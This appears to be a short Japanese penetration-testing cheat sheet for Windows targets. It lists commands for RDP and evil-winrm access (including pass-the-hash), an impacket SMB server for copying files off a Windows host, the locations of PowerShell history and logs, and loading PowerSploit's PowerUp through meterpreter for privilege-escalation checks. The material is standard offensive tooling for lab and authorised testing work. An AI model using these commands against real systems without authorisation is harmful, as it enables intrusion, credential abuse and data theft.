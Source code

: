 # Tips

## リモート接続

### RDP

```shell
xfreerdp /u:<user> /p:<password> /v:<ip> /w:1280 /h:800 +clipboard
```

### WinRM

```shell
evil-winrm -i <ip> -u <user> -p <password>

# Pass-the-Hash
evil-winrm -i <ip> -u <user> -H <hashvalue>
```

## ファイル共有

Linux の共有フォルダに、Windows からアクセスする

```shell
python3 -m pipx install impacket
```

```shell
# kali側で共有設定。user,passwordはWindows側の認証情報。
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <password> public share

# Windows側からコピー
copy <file> \\<ip>\public\
```

## Powershell

### Powershell の履歴

```powershell
%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Powershell プロセスのログ

```text
Application and Services Logs -> Microsoft -> Windows -> PowerShell -> OperationalApplication and Service Logs -> Windows PowerShell
```

### meterpreter から Powershell の起動

（例）
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```shell
meterpreter > load powershell
meterpreter > posershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```
